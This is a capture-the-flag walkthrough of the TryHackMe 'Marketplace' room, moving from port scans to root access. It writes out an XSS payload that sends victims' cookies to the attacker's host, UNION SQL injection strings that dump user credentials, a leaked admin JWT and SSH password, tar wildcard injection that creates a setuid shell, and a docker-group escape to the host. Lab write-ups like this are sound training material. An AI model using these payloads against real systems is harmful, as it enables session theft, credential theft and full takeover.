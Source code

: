 # The Marketplace

**Room Link:** [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## TCP/32768 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

## XSS - Steal JVT

[https://jwt.io/](https://jwt.io/)

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>





I tried updating the token it didn't work

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>



Next we're going to try to steal the JWT from another user.

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
<script>document.location='http://$KALI:4444/XSS/grabber.php?c='+document.cookie</script>
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

This was annoying because if I went to my posts it wouldn't work so I went to Jakes post and changed the number from 2 to 6 to get to the report page. Then just clicked the report button

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

we got a token from a user that isn't us

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>



We can see it is from Michael who is an admin.

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>





Sent again but this time just forwarded the request so we could see what that script was doing

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>



The script was printing the flag

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

This wasn't working before but after next time I went to this box tried I could just update the cookie from the browser and it worked.

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

**Brower cookie**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDE1MjgzODN9.O8218jJ0nmWedeewklX6fkb9sjlgH81ciU7dJG5l9YY
```



We add a order by and increase the number until we get an error to reveal how many fields there are.

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

After 5 it give us an error so we know there are four fields

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

We do a union select, first to try to show our 1s which isn't working because the first part of the statement runs successfully so theres no where to put our info

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

To work around this we make the userid as 0 which probably doesn't exist and we can start seeing our 1s

<figure><img src="../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Get Version

<figure><img src="../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>



Get Database

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>





Get tables

```
UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

Get All tables by concat

```
-1 UNION SELECT group_concat(table_name),1,1,1%20 FROM information_schema.tables WHERE table_schema =database()
```

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>





Get Columns for table users

```
-1%20UNION%20SELECT%20group_concat(column_name,column_type),1,1,1%20%20FROM%20information_schema.columns%20WHERE%20table_schema=marketplace
```

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Get Columns for table items

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='items' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='messages' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1%20UNION%20SELECT%20group_concat(message_content),1,1,1%20FROM%20messages
```

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>



Get usernames and passwords. The passwords aren't too useful at this point but now we have some usernames.

```
-1%20UNION%20SELECT%20group_concat(username,%27|%27,password),1,1,1%20FROM%20users
```

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh jake@$VICTIM
Password: @b_ENXkGYUCAv3zJ
```

<figure><img src="../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

## **Lateral Movement**

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

Jake can run a backup script as michael. The script is using a wildcard which we manipulate.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can trick the script to run this to get a shell by making empty files with similar names

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /opt/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh shell.sh
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

cp /bin/bash /opt/backups/michealbash;
chmod +xs  /opt/backups/michealbash;
```

**Victim**

```
chmod +x shell.sh 
rm -f ../backup.tar 
sudo -u michael /opt/backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **Privilege Escalation**

**Victim(micheal)**

```
id
find / -name docker.sock 2>/dev/null
docker images
docker run -it -v /:/host/ alpine chroot /host/ sh
```

michael is part of the docker group so it appears we're in a pod

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There a few images to test from. I just ran the last command above and changes the image name until it worked. Exploit worked with nginx and mysql images as well.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







